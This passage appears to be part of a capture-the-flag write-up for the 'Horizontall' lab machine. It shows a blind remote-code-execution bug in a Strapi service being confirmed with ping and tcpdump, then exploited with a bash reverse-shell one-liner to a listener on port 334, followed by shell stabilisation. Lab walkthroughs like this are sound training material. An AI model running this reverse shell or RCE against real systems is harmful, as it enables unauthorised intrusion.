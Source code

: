 ```bash
tquNtqIOdAa4nG2waej0nJW16a39-u-PvemqtFz9Dkg


$> whoami
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

It looks like it's working. However, the **RCE** is **blind**. But we can test it with a **ping**:
```bash
$> ping -c 1 10.10.14.161
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
$>

----------------------------------------------------------------------------------------------

❯ sudo tcpdump -i tun0 icmp -n
[sudo] password for logan:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:21:21.554375 IP 10.129.78.41 > 10.10.14.161: ICMP echo request, id 4150, seq 1, length 64
22:21:21.554468 IP 10.10.14.161 > 10.129.78.41: ICMP echo reply, id 4150, seq 1, length 64
```

It works!

Now we can get a **reverse shell** with **bash**:
```bash
$> bash -c 'bash -i >& /dev/tcp/10.10.14.161/334 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output

----------------------------------------------------------------------------------------------

❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.78.41.
Ncat: Connection from 10.129.78.41:33632.
bash: cannot set terminal process group (2039): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```

We have a shell but not a **tty** so we will do a **tty treatment**:
```bash
strapi@horizontall:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -lvnp 334

❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 334
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
